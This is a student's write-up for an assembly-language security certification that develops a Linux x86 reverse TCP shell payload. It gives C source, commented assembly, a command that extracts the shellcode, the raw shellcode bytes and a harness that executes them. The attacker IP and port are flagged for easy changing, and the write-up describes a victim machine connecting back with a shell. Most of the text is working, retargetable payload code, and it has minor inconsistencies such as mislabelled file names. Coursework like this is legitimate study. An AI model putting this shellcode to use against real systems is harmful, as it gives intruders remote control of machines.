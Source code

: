 # Assignment 2

## What to do
- Create a Shell_Reverse_TCP shellcode
    - Reverse connects to configured IP and Port
    - Execs shell on successful connection
- IP and port should be easily configurable

## How to do it
The path we can follow towards creating a shell_reverse_tcp shellcode is to first create a shell_reverse_tcp in C and transform C code into Assembly.

The following code was used as a basis:
```c
#include<stdio.h>
#include<sys/types.h>
#include<sys/socket.h>
#include<netinet/in.h>
#include<stdint.h>

int main()
{
        uint32_t sockid;                        //socket descriptor
        struct sockaddr_in srv_addr;    //client address
        uint32_t i;                             //counter

        srv_addr.sin_family = AF_INET;
        srv_addr.sin_port = htons(5555);
        srv_addr.sin_addr.s_addr = inet_addr("192.168.191.131");

        //create socket
        sockid = socket(PF_INET, SOCK_STREAM, 0);

        //connect socket
        connect(sockid, (struct sockaddr *)&srv_addr, sizeof(srv_addr));

        //duplicate file descriptors for STDIN, STDOUT, STDERROR
        for (i=0; i<2; i++)
                dup2(sockid, i);

        //execute /bin/sh
        execve("/bin/sh", NULL, NULL);
        close(sockid);

        return 0;

}
```
The code above can be found in our _Assignment #2_ repo and is named as _reverse.c_

You can compile this code using `gcc -o reverse reverse.c`

Again, we follow the same process of transforming C code into Assembly.

This time we need system calls like:

- socketcall
- connect
- dup2
- execve

The actual Assembly code follows:

```assembly
;
; Purpose: SLAE Course
; Student ID: SLAE-998
;

global _start

section .text
_start:

	; socket
	xor eax, eax	; clear eax
	mov ebx, eax	; clear ebx
	push eax	; push 0 IPPROTO_IP
	mov al, 0x66	; socketcall
	mov bl, 0x1	; sys_socket
	push byte 0x1	; push 1 SOCK_STREAM
	push byte 0x2	; push 2 AF_INET
	mov ecx, esp	; ecx points to memory
	int 0x80	; make the sys call

	; connect
	mov edx, eax	; sockfd
	xor eax, eax	; clear eax
	mov ebx, eax	; clear ebx
	mov al, 0x66	; xor eax,eax + socketcall
	mov bl, 0x3	; sys_connect

	push dword 0x83bfa8c0	; ip address 192.168.191.131 - 	# CHANGE ME
	push word 0xb315	; port 5555		     -	# CHANGE ME
	push word 0x2		; AF_INET = PF_INET = 2
	mov ecx, esp		; pointer to struct - second argument

	push 0x10	; addrlen = 16
	push ecx	; pointer to struct
	push edx	; sockfd

	mov ecx, esp	; pointer to arguments
	int 0x80	; make the sys call

	; dup2
	pop ebx		; sockfd to ebx
	xor ecx, ecx	; clear counter
	mov cl, 0x2	; initialize counter

	loop:
		mov al, 0x3f	; sys call dup2
		int 0x80	; make the sys call
		dec cl		; decrement counter
		jns loop

	; execve
	xor ecx, ecx	; clear register - second argument
	mul ecx		; clear eax, edx

	push eax		; null after string
	push dword 0x68732f6e	; n/sh
	push dword 0x69622f2f	; //bi

	mov ebx, esp	; point to //bin/sh in stack

	mov al, 0xb	; execve sys call
	int 0x80	; make sys call
```

The Assembly code can be found in _Assignment #1_ repo named as _shell.asm_

In this example port 5555 was used as the connection port and IP 192.168.191.131. Port 5555 translates to 0x15b3 in hex. Since our system follows the little-endian architecture, the port number has to be loaded in the memory in reverse order. The same goes for the IP address.

In order to change the connection port and IP it is suggested to choose the new port number and IP address convert them into hex, reverse the byte order and compile the program again.

Both the port number and the IP address are tagged in the Assmbly code (_# CHANGE ME_) so they can be easily spotted.

The Assembly code can be compiled using the following commands respectively:
```zsh
$ nasm -f elf -o shell.o shell.asm
$ ld -o shell shell.o
```

Next step is to extract the actual shellcode from the elf file using this one-liner command:
```zsh
$ objdump -d ./shell|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```
found in [commandlinefu.com](http://www.commandlinefu.com)

The extracted bytes are:
```
"\x31\xc0\x89\xc3\x50\xb0\x66\xb3\x01\x6a\x01\x6a\x02\x89\xe1"
"\xcd\x80\x89\xc2\x31\xc0\x89\xc3\xb0\x66\xb3\x03\x68\xc0\xa8"
"\xbf\x83\x66\x68\x15\xb3\x66\x6a\x02\x89\xe1\x6a\x10\x51\x52"
"\x89\xe1\xcd\x80\x5b\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\xfe\xc9"
"\x79\xf8\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69"
"\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80"
```

The following code can be used to create the bind_shell_tcp elf and test the produced shellcode. The shellcode must be placed in the shellcode buffer:
```c
#include<stdio.h>
#include<string.h>

unsigned char shellcode[] = \
"\x31\xc0\x89\xc3\x50\xb0\x66\xb3\x01\x6a\x01\x6a\x02\x89\xe1"
"\xcd\x80\x89\xc2\x31\xc0\x89\xc3\xb0\x66\xb3\x03\x68\xc0\xa8"
"\xbf\x83\x66\x68\x15\xb3\x66\x6a\x02\x89\xe1\x6a\x10\x51\x52"
"\x89\xe1\xcd\x80\x5b\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\xfe\xc9"
"\x79\xf8\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69"
"\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80";

main()
{

        printf("Shellcode Length:  %d\n", strlen(shellcode));

        int (*ret)() = (int(*)())shellcode;

        ret();

}
```

The code above can be found in _Assignement #1_ repo and is named as _shellcode.c_

The shellcode can be compiled using `gcc -fno-stack-protector -z execstack shellcode.c -o shellcode`

In order to get a shell a listener needs to be set up on the attacking machine, on the port specified in the shellcode (here this port is 5555)

By running the produced elf on the victim machine you get a working reverse_tcp_shell connection to the attacking machine!
##### Victim's machine
![img](https://github.com/lampnout/SLAE/blob/master/Assignment%202/slae%23%232con.PNG)

##### Attacker's machine
![img](https://github.com/lampnout/SLAE/blob/master/Assignment%202/slae%232.PNG)

## Statement
This page has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student-ID: SLAE-998
